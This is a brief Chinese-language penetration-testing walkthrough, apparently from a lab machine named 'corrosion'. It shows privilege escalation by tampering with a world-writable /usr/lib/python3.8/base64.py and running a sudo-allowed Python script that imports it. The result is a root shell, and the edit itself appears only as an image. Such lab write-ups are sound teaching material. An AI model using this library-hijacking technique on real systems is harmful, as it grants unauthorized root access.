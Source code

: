 

在系统上查找所有 base64.py 文件

```
locate base64.py

/home/randy/randombase64.py
/snap/core18/2128/usr/lib/python3.6/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python2.7/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python3.6/base64.py
/usr/lib/python3.8/base64.py
```



查看文件的权限（具有写入权限）

```
-rwxrwxrwx 1 root root 20420 Mar  2 16:52 /usr/lib/python3.8/base64.py
```



修改 base64.py 文件

![image-20250303085207798](./images/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95.assets/image-20250303085207798.png)



sudo 执行脚本，获得 root 权限。

```
sudo /usr/bin/python3.8 /home/randy/randombase64.py 

[sudo] password for randy: 
root@corrosion:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```
